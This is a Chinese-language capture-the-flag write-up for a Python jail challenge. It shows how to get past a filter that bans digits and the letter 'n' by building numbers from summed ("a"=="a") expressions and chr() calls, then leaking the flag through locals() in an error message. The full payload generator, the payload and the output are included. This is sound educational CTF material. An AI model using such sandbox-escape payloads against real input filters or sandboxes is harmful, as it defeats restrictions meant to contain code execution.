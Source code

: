 
這題多 ban 了數字，但會給我們 eval 的內容且結果長度要跟 flag 一樣才可以拿到，在之後的 revenge 才會用到這個性質，這題用了非預期解

btw stderr 還能夠使用！ 但想用我們 Jailbreak1 的 payload 之前要想辦法繞過數字，。

這時就想到了 splitline 出來 HITCONCTF2022 的 [VOID](https://blog.splitline.tw/hitcon-ctf-2022/#v-o-i-d-misc) 中用到的一個 trick:

```
(not [])+ (not []) -> 2
```

但這題有 ban 掉 `n`，所以不能用 not，不過上面 `not []` 的本質是 True，所以我們找一個 True 替代掉它也行，這邊用了 `"a"=="a"`。

透過這樣就能組合出任意數字! 之後再拿去 chr 就可以取得任意字串!

來開始寫 payload:

```python!
f = ('("a"=="a")+'*102).rstrip('+')
l = ('("a"=="a")+'*108).rstrip('+')
a = ('("a"=="a")+'*97).rstrip('+')
g = ('("a"=="a")+'*103).rstrip('+')
payload = f'locals()[locals()[chr({f})+chr({l})+chr({a})+chr({g})]]'
print(payload)
```

但這樣太長了，會撞到 UNIX shell 4096 的上限，所以把 l a 不要展開:

```python!
f = ('("a"=="a")+'*102).rstrip('+')
g = ('("a"=="a")+'*103).rstrip('+')
payload = f'locals()[locals()[chr({f})+"la"+chr({g})]]'
print(payload)
```

這樣就有了 !

```
Welcome to the prison's mail center

Please enter your message: locals()[locals()[chr(("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a"))+"la"+chr(("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a")+("a"=="a"))]]
Checking for contraband...
Error occured: 'bcactf{PyTH0n_M4st3R_Pr0veD}'; Message could not be sent.
```
